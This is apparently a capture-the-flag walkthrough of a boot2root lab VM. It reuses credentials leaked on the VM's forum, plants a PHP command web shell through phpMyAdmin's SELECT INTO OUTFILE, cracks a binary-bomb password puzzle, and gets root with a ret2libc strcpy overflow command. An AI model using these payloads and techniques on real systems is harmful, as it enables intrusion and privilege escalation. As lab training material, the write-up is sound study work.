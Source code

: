 When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
### 1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`:<br/>
    ![ifconfig](screens/1.jpg)
    
### 2. Using nmap to see which ports are open for the VM and what exact ip address it located at 
   `nmap 192.168.12.1-255`:<br/>
   ![nmap](screens/nmap.jpg)
      
   We see that port 80 accessible through the browser

### 3. Put this 192.168.12.128 into the browser address field and you will get a simple page:<br/>
      ![web_page](screens/web_page.jpg)
      
### 4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library:<br/>
   * `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       output gives us a possibility to see the "forum" folder and some other which are not really relevant:<br/>
       ![dirb](screens/dirb.jpg)<br/>
       Though http://192.168.12.128/forum not found in browser

   * lets try ssl version of the site<br/>
       `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       and we get much more info now, but there are few main folders:<br/>
       ![dirb_https](screens/dirb_https.jpg)<br/>
       https://192.168.12.128/forum<br/>
       https://192.168.12.128/webmail<br/>
       https://192.168.12.128/phpmyadmin<br/>

### 5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum <br/>
   * We see few topics, checking first one with login problem, looks like the log outpit of log in attempts, one line contains some symbols that are looking like a password:<br/>   
   ![forum_log_pass](screens/forum_log_pass.jpg)<br/>
   assuming that it was log in try we can think that it's user password, probably the one who created the topic<br/>
   
   * Log in functionality is present on a forum, as well as users tab:<br/>
   ![users](screens/forum_users.jpg)<br/>
   there are not so much users, so we going to try to login with credentials of them and this password that we have<br/>
   the try to login with lmezard and password that we've found was successfull<br/>
   ![user_profile](screens/forum_user_profile.jpg)<br/>
   Keep in mind that we have access to the "webmail" page and we see the email of the user
       
### 6. Going to check the webmail page
   * trying if user email that we found and password that we used to login are matching, seems it works<br/>
   ![web_mailer](screens/web_mailer.jpg)<br/>
   * inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site<br/>
   ![inbox](screens/inbox.jpg)<br/>
   ![db_access_mail](screens/db_access_mail.jpg)<br/>

### 7. phpmyadmin investigation
   * lets try to login with credentials that we've got<br/>
   * using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser<br/>
   * During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder<br/>
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";`<br/>
    ![db_injection](screens/db_injection.jpg)<br/>
### 8. thanks to the tutorial we can now use shell commands of the server from the browser 
   * which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder<br/>
   ![bash_in_browser](screens/bash_trough_browser.jpg)<br/>
   * looks like an ssh or ftp access <br/>
   ![lmezard_password](screens/lmezard_password.jpg)<br/>
   
### 9.     the ssh try
       ftp
       9.1 we can see two files, get them
       9.2 readme contains some hint for us
       9.3 fun is archive, decompressing it
       it contains a lot of .pcap files
       9.4 using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter
       9.5 we found out that archive 8 files return the values from the password
       lets sort them according to numbers inside and we will get the order
       APM1E I
       ZPY1Q h
       ECOW1 e
       7DT5Q a
       T7VV0 r
       J5LKW t
       T44J5 p
       BJPCP wnage
       now we see that the password "Iheartpwnage" looks like case sensetive
       9.6 In fun archive we also saw hint about SHA256, lets encode our password to SHA256 "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
       9.7 and try to ssh on the server with "laurie@192.168.12.128" and password
### 10. We are successfully ssh with laurie user
    10.1 we see the README file that gives us a hint how to get password for the ssh access with user "thor"
    10.2 disasemple bomb file and we see 6 functions
         Phase_1 pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
         Phase_2 function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
         Phase_3 contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
         Phase_4 contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
         Phase_5 contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
         Phase_6 the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access
        The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### 11. ssh thor@192.168.12.128 
    We see the README and turtle files
    README suggests us to login with user zaz
    the turtle file is a draw map which is python module
    it gives us the word SLASH
### 12. ssh zaz@192.168.12.128
    trying password SLASH, does not work
    sha256 encryption of SLASH does not work eather
    md5 does work
### 13. we find a file exploit_me and it has a root rights
    If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
    Playing around with the command line we can make the program crash at 140 bytes.
    ./exploit_me $(python -c "print('A' * 140)")
### 14. we need to exploit
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz) 
    gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
